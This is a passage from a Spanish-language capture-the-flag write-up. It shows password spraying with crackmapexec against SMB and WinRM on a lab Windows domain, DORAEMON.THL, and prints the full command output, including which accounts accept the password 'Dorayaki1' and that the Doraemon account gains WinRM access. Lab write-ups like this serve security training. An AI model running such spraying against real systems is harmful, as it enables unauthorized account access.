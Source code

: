 Lo que sí podemos probar, es si algún usuario utilizo su mismo nombre como contraseña y podemos utilizar los que ya tenemos, siendo este el **ataque Password Spraying**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="PasswordS">Aplicando Password Spraying con crackmapexec</h2>

Aplicaremos **Password Spraying** con **crackmapexec** y escogeremos cada usuario de la lista de usuarios.

Observa que con el nombre del **grupo Dorayaki1**, sirve para algunos usuarios, pero el que me llama la atención es el **usuario Doraemon**:
```bash
crackmapexec smb 192.168.10.5 -u AD_users.txt -p 'Dorayaki1' --continue-on-success --no-brute
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-VRU3GG3DPLJ) (domain:DORAEMON.THL) (signing:True) (SMBv1:True)
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\administrador:Dorayaki1 STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [+] DORAEMON.THL\guest:Dorayaki1 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\invitado:Dorayaki1 STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Nobita:Dorayaki1 STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Shizuka:Dorayaki1 STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Suneo:Dorayaki1 STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Gigante:Dorayaki1 STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [+] DORAEMON.THL\Doraemon:Dorayaki1 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [+] DORAEMON.THL\Dorayaki1:Dorayaki1 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [+] DORAEMON.THL\Estepona:Dorayaki1
```
Y recordando el escaneo, vimos que está activo el **servicio WinRM**.

Probemos si funciona esta contraseña contra algún usuario:
```bash
crackmapexec winrm 192.168.10.5 -u AD_users.txt -p 'Dorayaki1' --continue-on-success --no-brute
SMB         192.168.10.5    5985   WIN-VRU3GG3DPLJ  [*] Windows 10 / Server 2016 Build 14393 (name:WIN-VRU3GG3DPLJ) (domain:DORAEMON.THL)
HTTP        192.168.10.5    5985   WIN-VRU3GG3DPLJ  [*] http://192.168.10.5:5985/wsman
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\administrador:Dorayaki1
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\guest:Dorayaki1
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\invitado:Dorayaki1
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Nobita:Dorayaki1
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Shizuka:Dorayaki1
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Suneo:Dorayaki1
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Gigante:Dorayaki1
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [+] DORAEMON.THL\Doraemon:Dorayaki1 (Pwn3d!)
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Dorayaki1:Dorayaki1
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Estepona:Dorayaki1
```
Genial, podemos loguearnos con el **usuario Doraemon** al **servicio WinRM**.
